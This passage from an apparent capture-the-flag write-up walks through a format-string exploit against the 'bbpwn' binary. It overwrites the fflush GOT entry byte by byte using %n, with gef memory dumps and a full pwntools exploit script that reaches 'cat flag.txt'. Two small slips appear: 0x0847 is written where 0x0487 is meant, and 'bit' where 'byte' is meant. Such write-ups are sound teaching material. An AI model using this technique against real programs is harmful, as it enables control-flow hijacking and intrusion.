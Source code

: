 {% hint style="danger" %}
#### _Why didn't we put spaces like last time?_

Remember that `%n` prints the number of bytes written thus far. If we write spaces, we add another byte to the count. In theory, we could subtract one from the hex format specifier, but this is less confusing.
{% endhint %}

```nasm
gef➤  x/2wx 0x0804a028
0x804a028 <fflush@got.plt>:	0x0b010b0b	0xf7000001
```

The lower byte is now `0x0b` as desired. Now, let's do the second and third bytes similarly. Our current bytes are `0x010b`, and we need this to be `0x0487`. `0x0847-0x010b=892`. We can add `%892x` to the format string to write that many bytes. This changes the value at that address to:

```nasm
gef➤  x/2wx 0x0804a028
0x804a028 <fflush@got.plt>: 0x8704870b	0xf7000004
```

Finally, to modify the fourth bit, we need to write `0x08` to the fourth byte, which requires `0x108-0x87=129` bytes to be written. This will spill over to the next DWORD, but that's okay because it doesn't prevent us from pulling off this exploit.

### Putting it all Together

Putting together the payload, we have the following exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./bbpwn')
print(proc.recvline())

addrs = p32(0x804a028) + p32(0x804a029) + p32(0x804a02b)

flag_val0 = b"%185x%10$n"
flag_val1 = b"%892x%11$n"
flag_val2 = b"%129x%12$n"

payload = addrs + flag_val0 + flag_val1 + flag_val2

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

We notice that `cat flag.txt` is called! Exploiting this on the remote server, we get the flag.
